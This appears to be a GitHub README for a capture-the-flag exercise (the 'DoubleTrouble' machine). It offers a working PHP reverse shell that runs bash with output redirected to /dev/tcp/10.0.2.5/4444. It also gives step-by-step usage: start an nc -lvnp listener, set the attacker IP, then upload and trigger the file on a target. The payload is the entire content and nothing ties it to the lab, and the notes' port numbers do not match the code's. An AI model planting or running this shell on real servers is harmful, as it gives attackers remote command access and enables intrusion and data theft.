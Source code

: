 # 🐚 PHP Reverse Shell Exploit

This file contains a PHP reverse shell payload for the **DoubleTrouble CTF machine**.

---

## PHP Reverse Shell Code
```php
<?php
// PHP Reverse Shell Exploit
// Usage: Upload to target (via file upload or RCE vulnerability).
// Attacker must listen with Netcat: nc -lvnp 4444

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.5/4444 0>&1'");
?>
```
### Usage
1. Replace 10.0.2.5 with your attacker IP.
2. Replace 4444 with your chosen listener port.
3. Start a listener on the attacker machine:
```bash
nc -lvnp 4444
```
4. Upload & trigger the payload on the target.




## 💡 Notes
- Change the IP (`10.0.2.5`) to match your attacker machine.
- Modify the port (`5555`, `6666`, `7777`) as needed.
- Ensure you start the corresponding Netcat listener before running the payload.

